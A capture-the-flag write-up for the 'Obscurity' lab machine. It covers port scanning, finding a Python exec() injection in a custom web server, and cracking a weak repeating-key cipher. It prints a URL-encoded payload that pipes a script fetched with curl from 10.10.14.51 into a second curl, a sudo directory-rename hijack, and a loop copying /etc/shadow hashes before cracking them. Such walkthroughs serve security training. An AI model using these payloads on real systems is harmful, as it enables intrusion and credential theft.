





# Obscurity

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.48.178          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 05:46 +08
Nmap scan report for 10.129.48.178
Host is up (0.016s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
8080/tcp open   http-proxy
```

Did a detailed scan as well:

```
$ nmap -p 8080 -sC -sV --min-rate 3000 10.129.48.178
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-03 05:47 +08
Nmap scan report for 10.129.48.178
Host is up (0.023s latency).

PORT     STATE SERVICE    VERSION
8080/tcp open  http-proxy BadHTTPServer
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 02 Oct 2023 15:53:30
|     Server: BadHTTPServer
|     Last-Modified: Mon, 02 Oct 2023 15:53:30
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.93%I=7%D=10/3%Time=651B3A72%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Mon,\x2002\x20Oct\x2020
SF:23\x2015:53:30\nServer:\x20BadHTTPServer\nLast-Modified:\x20Mon,\x2002\
SF:x20Oct\x202023\x2015:53:30\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Mon,\x2002\x20Oct\x202023\x2015:53:30\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Mon,\x2002\x20Oct\x202023\x2015:53:30\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
```

Really long, but there's a custom HTTP server called `BadHTTPServer` running.

### Web Enumeration --> Source Code Review

The website was a blog of some sorts:


When scrolling through, there's a lot of mention about creating custom software, and that entire web server is custom as well.

There's also mention of an encryption algorithm and SSH, which we might need to exploit later given the name of the box:



More interestingly, there's a hint on the website for the source code:


If we try to use `gobuster` on the site, we get this error:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://10.129.48.178:8080/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.48.178:8080/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/quickhits.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/10/03 05:49:33 Starting gobuster in directory enumeration mode
===============================================================
2023/10/03 05:49:33 Unsolicited response received on idle HTTP channel starting with "\n"; err=<nil>
2023/10/03 05:49:33 Unsolicited response received on idle HTTP channel starting with "\n"; err=<nil>
```

It's basically rejecting our responses, but `wfuzz` works fine. We can now fuzz for this file:

```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=404 http://10.129.48.178:8080/FUZZ/SuperSecureServer.py
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.48.178:8080/FUZZ/SuperSecureServer.py
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

<TRUNCATED>
000004535:   200        170 L    498 W      5892 Ch     "develop"
```

We can then use `curl` to download this and analyse the code. Here's the contents of the script:

```python
import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "DocRoot"

CODES = {"200": "OK", 
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND", 
        "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg", 
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2", 
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}


class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):        
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}


class Server:
    def __init__(self, host, port):    
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data 
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False
    
    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]
        
        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"


        resp = Response(
        statusNum=statusNum, statusCode=statusCode, 
        dateSent = dateSent, server = server, 
        modified = modified, length = length, 
        contentType = contentType, connectionType = connectionType, 
        body = body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

Within that whole code chunk, there's one part that stands out:

```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
```

The `path` variable is not sanitised and passed diretly to the `exec` function, allowing for RCE. We can test this with some `'` characters:

```
>>> path = "/index.html'"
>>> exec(info.format(path))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    output = 'Document: /index.html''
```

Since this is Python, we can use `;` to chain commands together.

```
>>> path = "/index.html';hello;'"
>>> exec(info.format(path))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1, in <module>
NameError: name 'hello' is not defined. Did you mean: 'help'?
```

Since the `hello` is being processed and gives us that specific error, it means we have command injection! Using this one-liner, we can get a reverse shell:

```python
';os.system%28%27curl%2010.10.14.51%2Fshell.sh%7Ccurl%27%29;'
```



## Privilege Escalation

There is one user `robert` within the machine, and within his home directory we can find the SSH part they talked about earlier:

```
www-data@obscure:/home/robert$ ls -la
total 60
drwxr-xr-x 7 robert robert 4096 May  9  2022 .
drwxr-xr-x 3 root   root   4096 May  9  2022 ..
lrwxrwxrwx 1 robert robert    9 Sep 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 May  9  2022 BetterSSH
drwx------ 2 robert robert 4096 May  9  2022 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26  2019 check.txt
drwxr-x--- 3 robert robert 4096 May  9  2022 .config
drwx------ 3 robert robert 4096 May  9  2022 .gnupg
drwxrwxr-x 3 robert robert 4096 May  9  2022 .local
-rw-rw-r-- 1 robert robert  185 Oct  4  2019 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4  2019 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4  2019 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Oct  2 15:51 user.txt
```

There is a `out.txt` that is encrypted, probably using the `SuperSecureCrypt.py` script:

```
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

### Encryption Exploit --> User Shell

Here's the script contents:

```python
import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Decrypting...")
        decrypted = decrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Encrypting...")
        encrypted = encrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)
```

The encryption used here is rather weak, and we have both `check.txt` as the plaintext and `out.txt` as our ciphertext.

The encryption does the following:

* For each byte of plaintext and the key, add them together
* Do modulus 255, and writing the output.

The best part is that there's a decrypt function there, meaning we just have to copy over the same function:

```python
with open('check.txt','r', encoding = 'UTF-8') as p:
	plain = p.read()

with open('out.txt','r', encoding = 'UTF-8') as c:
	cipher = c.read()

for c,p in zip(cipher,plain):
	print(chr((ord(c) - ord(p)) % 255))
```

This would print the string `alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichal`.

This seems to be multiple repeats of the entire password, and this decryption requires the ciphertext and plaintext both be the same length.

Anyways, we can decrypt it using this:

```
$ python3 Super.py -i passwordreminder.txt -d -k alexandrovich -o clear
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to clear...

$ cat clear    
SecThruObsFTW
```

Afterwards, we can `ssh` in as `robert`.



### Sudo Privileges --> PATH Hijack

The user has some `sudo` privileges:

```
robert@obscure:~$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Here's the script contents:

```python
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

The above is cool and all, but what if we just...made another `BetterSSH.py`?

The `BetterSSH` file was within our own home directory. Despite the file itself being owned by `root`, we can still use `mv` to rename it:

```
robert@obscure:~$ mv BetterSSH/ old
```

The above works. `rm` won't work because the files inside that folder are owned by `root`, and I cannot modify them.

Then, just do the following:

```bash
cd BetterSSH
/usr/bin/sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

We can then easily get `root`:



Rooted!

### Intended Root --> Race Condition

The above was not the intended method, so let's take a look at the script. The script opens `/etc/shadow`, and then puts the password in a separate file while it does `sleep`.

This means there's an exploitable race condition, and we just need to `cp` that password file over.

We just need to have an ongoing loop copying files over, and then execute the file in another `ssh` session:

```bash
mkdir /tmp/SSH
while true; do cp -R /tmp/SSH/* . 2>/dev/null; done
```

When we run the script again, we would find a file like this:

```
$ cat sg5gTFJU 
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

This hash can then be cracked using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)     
1g 0:00:00:00 DONE (2023-10-03 06:36) 5.555g/s 2844p/s 2844c/s 2844C/s angelo..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can `su` to `root`.


